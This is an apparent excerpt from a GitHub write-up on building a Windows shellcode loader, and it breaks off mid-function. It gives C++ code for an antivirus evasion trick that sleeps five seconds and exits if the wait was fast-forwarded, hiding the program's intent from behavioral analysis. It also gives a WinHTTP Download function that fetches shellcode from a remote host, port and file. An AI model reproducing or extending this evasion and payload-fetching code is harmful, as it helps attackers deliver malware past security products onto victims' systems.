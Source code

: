 * We proceed by incorporating a sleep mechanism designed to bypass any behavioral analysis done by AntiVirus products. In short, we begin with a `Sleep` that lasts *5* seconds or *5000* ms.

```
int tick = GetTickCount64();
        Sleep(5000);
```

When behavioral analysis is performed on executables, defensive solutions will fast forward through the wait time and proceed with the flow of the program. If this is the case, we proceed to check if the flow was fast-forwarded and if so, the program exits to mask its true intentions.

```
int tock = GetTickCount64();
        if ((tock - tick) < 4500)
                exit(0);
```

* We then create a `Download` function that accepts 3 parameters : `Host` and `Port` and `FileName`. Those parameters serve as an indication of the shellcode's whereabouts.

```
std::vector<BYTE> Download(LPCWSTR baseAddress,int port,LPCWSTR filename)
{
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        0);

    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        port,
        0);


    // create request handle
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect,
        L"GET",
        filename,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        0);

    WinHttpSendRequest(
        hRequest,
        WINHTTP_NO_ADDITIONAL_HEADERS,
        0,
        WINHTTP_NO_REQUEST_DATA,
        0,
        0,
        0);

    WinHttpReceiveResponse(
        hRequest,
        NULL);

    std::vector<BYTE> buffer;
    DWORD bytesRead = 0;

    do {

        BYTE temp[4096]{};
```